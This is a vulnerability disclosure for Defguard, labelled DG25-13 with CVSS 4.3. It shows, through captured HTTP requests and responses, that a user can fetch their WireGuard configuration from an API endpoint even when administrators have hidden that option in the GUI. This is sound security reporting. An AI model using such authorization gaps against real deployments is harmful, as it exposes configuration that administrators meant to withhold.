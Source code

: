 ```yaml
---
title: "DG25-13: User can see configuration even when this option is not visible in GUI"
cvss_score: 4.3
severity: Low
status: Completed
cvss_string: "/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N"
issue_link: https://github.com/DefGuard/defguard/issues/1526
---
```


### Technical details

1.  only_client_activation is set to true - meaning that administrator
    disabled manual WireGuard configuration

**Request:**\
\
**GET** /api/v1/settings_enterprise HTTP/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=NsgBmPHhmwakT9UGb0QO4SoR\
\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** application/json\
**Date:** Wed, 06 Aug 2025 12:44:31 GMT\
**Server:** Caddy\
**X-Defguard-Version:** 1.5.0-a29ac10\
**Content-Length:** 91\
\
{\"admin_device_management\":false,\"disable_all_traffic\":false,\"only_client_activation\":true}

1.  Show configuration is missing, nonetheless, below endpoints
    discloses the configuration:

**Request:**\
\
**GET** /api/v1/network/1/device/12/config HTTP/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=NsgBmPHhmwakT9UGb0QO4SoR\
\
\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** text/plain; charset=utf-8\
**Date:** Wed, 06 Aug 2025 12:44:46 GMT\
**Server:** Caddy\
**Content-Length:** 213\
\
\[Interface\]\
PrivateKey = YOUR_PRIVATE_KEY\
Address = 10.22.33.5\
\
\
\[Peer\]\
PublicKey = wq5uFq9EnnRQkIDJr3I/bYS/EhBvwc4nptIewnhzdhU=\
AllowedIPs = 10.22.33.0/24\
Endpoint = 167.172.191.17:51820\
PersistentKeepalive = 300
